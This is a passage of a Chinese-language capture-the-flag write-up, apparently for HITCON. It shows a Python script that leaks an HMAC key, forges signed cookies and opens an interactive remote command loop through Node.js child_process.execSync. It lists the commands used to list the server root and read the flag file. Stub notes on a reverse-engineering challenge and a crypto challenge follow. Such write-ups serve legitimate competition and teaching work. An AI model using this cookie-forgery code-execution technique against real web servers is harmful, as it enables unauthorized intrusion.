 ```python=
        i += 1

res = requests.get(f"{url}/random", cookies={"code":cookie})
secret_key = res.json()['result'].split('result = ')[1]
print(f"leaked key = {secret_key}")

while(True):
    # execute command: require("child_process").execSync("ls -al", {'encoding':'utf8'})
    command = input("input command > ").encode().hex()
    if(len(command) < 40):
        command += '//'.encode().hex()
    while(len(command) < 40):
        command += '00'
    signature = b64encode(hmac.new(secret_key.encode(), msg=command.encode(), digestmod='sha256').digest()).decode().strip('=')

    cookie = f"s:{command}.{signature}"
    res = requests.get(f"{url}/random", cookies={"code":cookie})
    print(res.text)
```
:::

而 nodejs 中執行 shell 指令的程式看起來像是這樣 `require("child_process").execSync("ls -al", {'encoding':'utf8'})`，照著填入即可

以下是我取得 flag 所下的指令順序
```javascript=
require("child_process").execSync("ls -al /", {'encoding':'utf8'})
require("child_process").execSync("cat /flag-1e5657085ea974db77cdef03cc5753833fea1668", {'encoding':'utf8'})
```

flag gatcha

![](https://i.imgur.com/9onvzaU.png)

hitcon{random cat executionnnnnnn}

## Reverse
### (X)checker
- Main Func(有稍微Patch過，原為DeviceIoControl(_DAT_140003620))
![](https://i.imgur.com/BONmLX8.png)


## Crypto
### (X) ㊙️ BabySSS
![](https://i.imgur.com/giLtGv1.png)

:::spoiler chall.py
```python=
from random import SystemRandom
from Crypto.Cipher import AES
from hashlib import sha256
from secret import flag

rand = SystemRandom()


def polyeval(poly, x):
    return sum([a * x**i for i, a in enumerate(poly)])


```